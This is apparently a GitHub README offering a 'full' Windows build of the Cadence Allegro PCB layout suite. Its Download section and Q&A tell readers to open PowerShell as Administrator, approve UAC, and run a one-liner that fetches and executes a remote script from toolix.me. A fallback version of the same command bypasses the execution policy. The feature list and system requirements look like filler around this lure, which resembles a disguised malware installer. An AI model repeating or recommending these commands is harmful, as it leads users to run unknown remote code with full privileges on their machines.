

***

# Cadence Allegro Full

<p align="center">
  
</p>

Cadence Allegro Full — Windows 11 and 10 build | constraint-driven PCB layout | ready for production boards.

## About this application

**Cadence Allegro Full** in this repo is a Windows desktop package for PCB engineers and hardware teams. Expect a guided first launch, access to the complete Allegro layout and routing workspace, and stable sessions on a standard workstation.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Cadence Allegro Full suits PCB designers who need a straightforward Windows install and a focused board-layout workflow.

## What's included

Professional Allegro modules are bundled in this release. Install locally, open the suite, and use the PCB design toolkit right away.

## Features

⚡ Fast project bootstrap
🧩 Constraint manager presets
📐 Multi-layer board templates
🔐 Design rule checks
✨ Interactive routing
✨ Signal integrity review
✨ Footprint library access

## Good for

- 📌 Hardware design teams
- 🎯 PCB layout engineers
- ⭐ Prototype-to-production boards

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 16 GB minimum | 32 GB recommended
* **Disk:** 20 GB available storage

***